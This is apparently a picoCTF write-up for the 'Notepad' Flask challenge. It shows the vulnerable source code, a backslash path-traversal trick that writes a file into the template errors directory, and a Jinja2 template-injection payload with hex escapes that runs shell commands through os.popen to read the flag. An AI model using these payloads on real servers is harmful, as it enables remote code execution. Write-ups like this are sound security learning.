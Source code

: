 # CTF Competition: picoCTF

### CTF Name: Notepad
**CTF Weight:** 25o points

**Link:** [https://play.picoctf.org/practice/challenge/140?page=1&search=des](https://play.picoctf.org/practice/challenge/204?category=1&page=4&search=)

This challenge provides a simple website written in Flask where we can write and store our notes. The source code to the application was provided. This CTF tested LFI and SSTI.


**app.py**
```
from werkzeug.urls import url_fix
from secrets import token_urlsafe
from flask import Flask, request, render_template, redirect, url_for

app = Flask(__name__)

@app.route("/")
def index():
    return render_template("index.html", error=request.args.get("error"))

@app.route("/new", methods=["POST"])
def create():
    content = request.form.get("content", "")
    if "_" in content or "/" in content:
        return redirect(url_for("index", error="bad_content"))
    if len(content) > 512:
        return redirect(url_for("index", error="long_content", len=len(content)))
    name = f"static/{url_fix(content[:128])}-{token_urlsafe(8)}.html"
    with open(name, "w") as f:
        f.write(content)
    return redirect(name)
```

**index.html**
```
<!doctype html>
{% if error is not none %}
  <h3>
    error: {{ error }}
  </h3>
  {% include "errors/" + error + ".html" ignore missing %}
{% endif %}
<h2>make a new note</h2>
<form action="/new" method="POST">
  <textarea name="content"></textarea>
  <input type="submit">
</form>
```

The key to many of these CTFs is tracking the user input and seeing where the input goes and if those places can be exploited. In this case, the user input is stored in the variable called content.
Immediately after taking in the input, an error is raised if "_" or "/" are in the input.
Next, it checks if the input length is > 512. If it is then an error is raised.
If both these checks are cleared then we can write the note into the `static` folder.

## Writeup:

I noticed that in the index.html, the `{% include "errors/" + error + ".html" ignore missing %}` variable was getting the text from a variable in the `errors` directory. Thus, if we can try to somehow get LFI and write to the `errors` directory, I could then perform a server side template injection attack.

Going back to app.py, I noticed that the name to be written to was using a function called url_fix from the werkzeug.urls library to create the file name. After looking at the source code for url_fix, I saw that it replaces `\` with `/`!!!
This is huge! we can now get around the `/` character being blacklisted by using `\` 
![image](https://github.com/Mitchellzhou1/CyberPortfolio/assets/95938232/e2eedda6-2b4e-49b6-abb2-74974d45f238)


So, to test my LFI theory I used the following payload to see if it could be written to the errors directory: `..\templates\errors\pleasework`. Sure enough, I saw the URL change to `https://notepad.mars.picoctf.net/templates/errors/pleasework-zWPCSoNIdyc.html` GREAT! this means that it was successful, to verify we can see that is in my file by going to `https://notepad.mars.picoctf.net/?error=pleasework-zWPCSoNIdyc`
This makes the erorr file it reads from the file I just created.
![image](https://github.com/Mitchellzhou1/CyberPortfolio/assets/95938232/1d90ffa7-d285-43be-859d-f1b447b997ab)


Now our last step is just to perform SSTI. Hacktricks provides great exploit code for SSTI and I found one that didn't have any `/` or `_` as these were blacklisted characters in the app.py
![image](https://github.com/Mitchellzhou1/CyberPortfolio/assets/95938232/527c08e5-bae9-425a-af9e-579b7cc23252)

I didn't want to the payload to be in the name of the error file so I 'filled' it up by adding a bunch of `..\`'s then the SSTI payload. So the payload looked like this:
`..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\app\templates\errors\zz{%with a=request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls${IFS}-l')|attr('read')()%}{%print(a)%}{%endwith%}`
To see the results I went to `https://notepad.mars.picoctf.net/?error=zz-uVCtHElqvbA` were I saw the flag file: `flag-c8f5526c-4122-4578-96de-d7dd27193798.txt`

![image](https://github.com/Mitchellzhou1/CyberPortfolio/assets/95938232/fd2577e0-1fc7-4304-a478-479c2ba69ef0)


To read from it, the payload now becomes: `..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\app\templates\errors\zz{%with a=request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat${IFS}flag-c8f5526c-4122-4578-96de-d7dd27193798.txt')|attr('read')()%}{%print(a)%}{%endwith%}`

![image](https://github.com/Mitchellzhou1/CyberPortfolio/assets/95938232/2ecbfec2-60b7-4f4d-9799-de6ccd3a6deb)

The flag is: `picoCTF{styl1ng_susp1c10usly_s1m1l4r_t0_p4steb1n}`



